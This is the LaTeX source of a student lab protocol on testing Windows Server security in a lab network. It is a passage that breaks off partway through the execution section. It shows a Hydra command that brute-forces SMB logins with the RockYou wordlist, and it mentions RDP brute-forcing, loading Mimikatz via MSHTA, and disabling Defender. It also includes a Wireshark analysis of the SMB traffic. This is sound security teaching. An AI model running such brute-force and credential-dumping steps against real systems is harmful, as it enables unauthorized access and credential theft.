\documentclass[a4paper]{article}
\usepackage{dirtytalk}
\usepackage{graphicx}
\usepackage[hidelinks]{hyperref}
\usepackage{xcolor}
\usepackage{url}
\usepackage{animate}
\usepackage{outlines}
\usepackage{listings}
\usepackage{fontspec}
\lstset{basicstyle=\ttfamily,
	showstringspaces=false,
	commentstyle=\color{blue},
	keywordstyle=\color{red}
}
\lstset{emph={
	cl,parser,hydra,EXPOSE,RUN,FROM,CMD,nc,tcp,udp,http,docker},emphstyle=\color{purple}
}
\newcommand{\abc}{\hfill \break}
\usepackage{fancyhdr}
\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	left=20mm,
	top=20mm,
	bottom=39mm,
}

\setlength{\headheight}{82.70538pt}

\fancypagestyle{oida}{
	\fancyhf{}
	\fancyhead[L]{\fontsize{7.5}{7.5}htl donaustadt\\ Donaustadtstraße 45\\
		1220 Wien\\~\\ Abteilung: Informationstechnologie\\ 
	Schwerpunkt: Netzwerktechnik}
	\fancyhead[R]{
\includegraphics[scale=0.45]{images/logo.png}}

	\fancyfoot[L]{\today}
	\fancyfoot[C]{\jobname}
	\fancyfoot[R]{Page: \thepage}
}

\begin{document}
\bibliographystyle{IEEEtran}
\pagestyle{oida}
\section*{Testing Windows server security}
\par\noindent\rule{\textwidth}{0.4pt}

Laboratory protocol
Excercise 9 Testing Windows server security

\begin{figure}[h]
	
\includegraphics[scale=0.22]{images/menthing.png}
	\centering
	\caption{Grouplogo}
\end{figure}

\vspace*{\fill}
Subject:	ITSI

Class:	3AHITN

Name:	Stefan Fürst, Justin Tremurici

Gruppenname/Nummer: Name here/12

Supervisor: 	SPAC, ZIVK

Exercise dates:	14.03.2025 | 21.03.2025 | 28.03.2025 | 04.04.2025

Submission date: 11.04.2025


\newpage
\tableofcontents

\newpage

\section{Task definition}

This task was conducted using a combination of manual configuration and automated attack tools to evaluate the security posture of a Windows Server environment. The environment setup involved preparing both the target system and an attacker system running Kali Linux, which was equipped with tools such as Hydra for brute-force attacks and Wireshark for network traffic analysis. \abc
Initially, the target Windows Server was configured by creating a new local user account named \texttt{testuser} with the password \texttt{passwort}. A network share was created using \texttt{New-SmbShare}, and permissions were assigned to \texttt{testuser} to grant access. Concurrently, Wireshark was deployed on either the server or an intermediary device to capture and analyze traffic related to the attacks.\abc
To simulate credential-based attacks, Hydra was used to conduct brute-force attempts on the SMB protocol:
\[
\texttt{hydra -l testuser -P /path/to/passwordlist.txt smb://<IP-ADDRESS>}
\]
The time to successful login was measured and compared between weak (e.g., \texttt{passwort}) and strong (e.g., \texttt{P@ssw0rd123!}) password configurations. Network traffic was captured and filtered using the expression \texttt{tcp.port == 445}, enabling detailed inspection of failed and successful authentication attempts. \abc
A second brute-force attack was executed against the Remote Desktop Protocol (RDP). RDP was enabled through system settings, and \texttt{testuser} was added to the \texttt{Remote Desktop Users} group. Hydra was again utilized for this.
Wireshark was used to capture the RDP traffic (\texttt{tcp.port == 3389}) for comparison against the SMB-based attack. Observations highlighted protocol-level differences in how failed and successful login attempts were processed and exposed.\abc
Following the attacks, two mitigation techniques were researched and implemented to harden the system. Group Policy Objects (GPOs) were configured to enforce account lockout policies and limit RDP access. These changes were validated by re-running attacks and observing reduced effectiveness due to increased security controls.\abc
Additionally, privilege escalation techniques were examined using Mimikatz. Requirements for successful execution were researched, including necessary privileges and system policies. As a bonus, Mimikatz was tested on the server to extract credentials and security tokens. The analysis revealed sensitive credential information, underscoring the importance of disabling credential caching and applying strict administrative controls.\footnote{The task definition was created by ChatGPT.}

\section{Summary}
In this exercise, we used \texttt{Hydra} for brute-force attacks on various services. However, due to issues with \texttt{Hydra}'s support for RDP brute-forcing, we created a custom Python script that utilized the \texttt{FreeRDP} command to perform the RDP brute-force attacks. This solution allowed us to bypass the limitations of \texttt{Hydra} and simulate RDP credential stuffing attacks effectively.\abc
To enhance the security of the target system, we adjusted Group Policy settings, specifically disabling \texttt{NTLM} authentication and modifying account lockout policies. These changes were intended to limit the success of brute-force attacks by reducing the number of login attempts allowed.\abc
We also deployed \texttt{EvWatcher} to monitor and limit attack attempts, ensuring that further malicious actions would be detected and blocked. For privilege escalation, we used \texttt{MSHTA} in combination with an MP3 file to bypass security and deploy \texttt{Mimikatz} onto the target system. To ensure \texttt{Mimikatz} could function, we disabled \texttt{Windows Defender}.\abc
\texttt{Mimikatz} is a powerful tool used to extract credentials, manipulate security tokens, and perform privilege escalation on Windows systems. It can dump plaintext passwords, password hashes, and Kerberos tickets from memory, providing an attacker with sensitive information. This exercise highlighted the importance of securing systems against such attacks by using strong policies, disabling insecure protocols like \texttt{NTLM}, and employing endpoint protection to prevent tools like \texttt{Mimikatz} from successfully exploiting the system.\footnote{The sumamry was created by after provding a draft of bullet points of what we did to ChatGPT.}
\newpage

\section{Complete network topology of the exercise}
\begin{figure}[h]
	
\includegraphics[scale=0.3]{images/topo.png}
	\centering
	\caption{Complete network topology of the exercise}
\end{figure}\abc
\newpage

\section{Exercise Execution}
\subsection{Setting Up the Exercise Environment}
To meet the initial requirements of this exercise, the script from last time was simplified to create only five test users, along with corresponding security groups. Most randomly generated elements were removed, leaving only three shares on the \texttt{C:} drive. This can be verified in the Computer Management utility under the Users, Shares, and Groups categories, as shown in Figures 3 to 5.
\begin{figure}[h]
	
\includegraphics[scale=0.25]{images/user.png}
	\centering
	\caption{Veryfing the creation of the users}
\end{figure}
\begin{figure}[h]
	
\includegraphics[scale=0.3]{images/groups.png}
	\centering
	\caption{Veryfing the creation of the groups}
\end{figure}
\begin{figure}[h]
	
\includegraphics[scale=0.215]{images/shares.png}
	\centering
	\caption{Veryfing the creation of the shares}
\end{figure}\abc
\subsection{Brute-Forcing SMB with Hydra}
Since part of the setup involved assigning weak passwords to the users, they can be easily brute-forced with Hydra using the following command:
\begin{lstlisting}[language=PowerShell]
hydra -l user1 -P /usr/share/wordlists/rockyou.txt -t 4 192.168.56.102 smb2 -I
\end{lstlisting}
This command consists of the \texttt{-l} flag to specify the user to target, and the \texttt{-P} flag to specify the list of passwords to use—in this case, I opted for the RockYou wordlist. Note that \texttt{-P} (uppercase) indicates a list of passwords, whereas \texttt{-p} (lowercase) is used for a single password. The \texttt{-t} flag sets the number of threads to use for the attack, meaning how many parallel instances of Hydra are dispatched to perform the task. \texttt{192.168.56.102} sets the target IP address, and \texttt{smb2} specifies the protocol to use, which in my case is \texttt{smb2} since the server is running SMB version 2. Lastly, the \texttt{-I} flag tells Hydra to ignore restoring progress from an earlier session, so the “Do you want to restore” prompt does not appear in the screenshot.\abc
After running the command, we can see in Figure 6 that \texttt{password123\_} is not a secure password, as it gets cracked in just one second.
\begin{figure}[h]
	
\includegraphics[scale=0.215]{images/hydrasmb.png}
	\centering
	\caption{Obtaining the password for the smb share}
\end{figure}\abc
\newpage
\subsubsection{Analyzing Network Traffic with Wireshark}
To investigate what is happening under the hood during the attack, I had a Wireshark capture running while executing Hydra.\abc
By filtering for \texttt{tcp.port == 445}, we can examine the SMB-related network traffic being sent and received, and analyze the authentication process taking place alongside it.\abc
Figure 7 shows the first SMB packet, which is sent using version 1 instead of version 2, despite version 2 being specified in the command. This behavior is explained in the specification for SMB versions 2 and 3 from Microsoft, under the section \textbf{Relationship to Other Protocols} on page 25: \abc
\say{The SMB 2 Protocol can be negotiated by using an SMB negotiate, as specified in MS-SMB section 1.7. After a dialect of the SMB 2 Protocol is selected during negotiation, all messages that are sent on the connection (including the negotiate response) will be SMB 2 Protocol messages, as specified in this document, and no further SMB traffic will be exchanged on the connection.} \cite{microsoft_corporation_server_2024}\abc
This \texttt{Negotiate Protocol Request} informs the server of the SMB dialects (i.e., versions) the client supports, which is essentially an array of supported versions. This can also be inspected in Figure 7, under the "Request Dialects" section of the \texttt{Negotiate Protocol Request}. \cite{noauthor_controlling_2022}
\begin{figure}[h]
	
\includegraphics[scale=0.24]{images/smb1.png}
	\centering
	\caption{Inspecting the first Negotiate Protocol Request}
\end{figure}\abc
After this request, the server responds with a \texttt{Negotiate Protocol Response}, in which it replies with the preferred SMB dialect and an array of capabilities—essentially a list of supported features. In this case, the server responds with the \texttt{SMB2 Wildcard}, indicating that it supports at least \texttt{SMB 2.1} or a newer version. This response prompts the client to send another \texttt{SMB2 Negotiate Request} specifying the exact revision of the \texttt{SMB 2} protocol to be used. As demonstrated in Figure 8. \cite{noauthor_ms-smb2_2024}\newpage
\begin{figure}[h]
	
\includegraphics[scale=0.2]{images/smb2.png}
	\centering
	\caption{Viewing the \texttt{Negotiate Protocol Reponse}}
\end{figure}\abc
Now the client responds with its own list of supported capabilities, as highlighted in Figure 9.
\begin{figure}[h]
